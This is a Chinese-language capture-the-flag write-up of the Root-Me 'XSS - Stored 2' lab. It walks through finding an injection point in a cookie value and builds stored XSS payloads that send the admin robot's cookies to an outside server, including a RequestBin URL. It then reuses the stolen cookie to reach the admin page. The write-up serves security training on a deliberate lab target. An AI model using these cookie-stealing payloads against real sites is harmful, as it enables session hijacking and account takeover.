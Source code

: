 ## [[Root-Me](https://www.root-me.org/)] [[Cracking](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)] [[解题报告](http://exp-blog.com/2019/01/22/pid-3166/)]

------

很直白告诉了告诉了我们是存储型 XSS 题型。注意题目要求：

`Steal the administrator session's cookie and go in the admin section.`

意思就是：**窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

注意到在挑战页面顶部有个 `admin` 超链，点击后 URL 多了个请求参数 `?section=admin` ， 但是页面内容无变化，猜测这就是需要使用 administrator 的 cookie 才能访问的页面。

------------


挑战页面有两个输入口，但是测试过，这两个输入框都对所有 html 标签字符做了过滤，无法注入。

仔细观察，发现提交输入后，页面会回显 3 个内容：

- 输入的 Title
- 输入的 Content
- 右上角的 Status 值（**似乎固定为 invite？其实不然！**）

![](http://exp-blog.com/wp-content/uploads/2019/01/c524d40fcfdb1200ffdec983e5260bcb.png)

> 多刷新几次页面，不难注意到这台靶机后台有个 admin-robot 在定时读取提交的消息。

------------

打开浏览器开发者工具：

- 切到 Network 查看页面cookie ，发现 `status=invite` 是其中一个  cookie 值（另一个是当前用户的 `uid`）。
- 切到 Elements  查看提交回显的内容，发现 `invite` 是 &lt;i&gt; 标签的 class 值

![](http://exp-blog.com/wp-content/uploads/2019/01/22b83f43ef64024795b50d6a09282f36.png)

![](http://exp-blog.com/wp-content/uploads/2019/01/b83b05eb759e7c1742160cf4c1816621.png)


------------

使用 Burp Suite -> Repeater 任意修改 cookie 的 `status` 值后再发送请求，发现回显的内容中的 &lt;i&gt; 标签的 class 值也随之改变，说明**这就是 XSS 注入点**。

![](http://exp-blog.com/wp-content/uploads/2019/01/ee5593eb672ad2f7264620e15a5c647c.png)


------------

尝试构造 payloads ： `"><script>alert(1)</script>` （关闭 &lt;i&gt; 标签再注入 &lt;script&gt;）

通过 Burp Suite -> Repeater 提交，页面弹出警告对话框，注入成功。

![](http://exp-blog.com/wp-content/uploads/2019/01/04033e37798966756844a166938ff6e5.png)

![](http://exp-blog.com/wp-content/uploads/2019/01/d975300b28ff63a24cc954b5160a796b.png)

------------

至此思路很明确了：通过 cookie 把包含 payloads 消息存储到后台，当 admin-robot 读取到这条消息时，就把这个机器人的 cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么构造一个这样的 payloads 即可实现 cookie 窃取：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))</script>`

其中对于 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/q9vld7q9`，则把 payloads 修改为：

`"><script>document.write(%22<img src=http://requestbin.fullcontact.com/q9vld7q9?%22.concat(document.cookie).concat(%22 />%22))</script>`

![](http://exp-blog.com/wp-content/uploads/2019/01/505f42c6b21457d6e339739e9a61eb1e.png)

------------

提交 payloads 后，好不容易等到  admin-robot 读取了消息，但是在 HTTP 服务器查看  admin-robot 发送过来的请求却发现，cookie 只有 `status` 参数，缺失了最重要的 `uid` 参数。

![](http://exp-blog.com/wp-content/uploads/2019/01/57f014f92a52eff6c6b7833afdc5d874.png)


------------


其实从 Burp Suite -> Repeater 可以发现， cookie 本来完整的值是这样的（`status` 和 `uid` 之间有**空格**）：

`status=invite; uid=wKgbZFxF4fV0HH+nA2kGAg==`

导致构造前面的 payloads 提交后， 因为这个空格使得 cookie 被拆解成两部分：

- 前半部分的 `status` 作为 &lt;img&gt; 标签的 `src` 属性被提交到 HTTP 服务器
- 后半部分的 `uid` 则成为 &lt;img&gt; 标签的一个独立属性

![](http://exp-blog.com/wp-content/uploads/2019/01/c3697edb648aafa09f882a5bb4f6f036.png)


![](http://exp-blog.com/wp-content/uploads/2019/01/9c0d233b92d408aae74810eea87c5f7a.png)

------------

因此，为了把 `uid` 的值也窃取，需要把 payloads 做了小改动，即把 `document.cookie` 的空格处理掉。

在这里我把空格替换成 `&` ，最终 payloads 如下：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie.replace(%22 %22,%22&%22)).concat(%22 />%22))</script>`

![](http://exp-blog.com/wp-content/uploads/2019/01/addc0175089549bbc2a9d65b0dfddfef.png)

------------


提交后成功从 HTTP 服务器收到 `ADMIN_COOKIE` ：

![](http://exp-blog.com/wp-content/uploads/2019/01/d31f04abf0f90aa021e0b4a594d63f13.png)

------------

但是注意不要急着完成挑战，因为这并不是密码，题目要求的是： **窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

把从 HTTP 服务器收到的 cookie 的 `&` 改回去空格，得到真正的  cookie 值：

`status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`

将其修改到 Burp Suite -> Repeater 的请求 Cookie 后访问页面：

`http://challenge01.root-me.org/web-client/ch19/?section=admin`

得到密码，完成挑战。

![](http://exp-blog.com/wp-content/uploads/2019/01/e287b895021a2c2134c516cfa3dab970.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
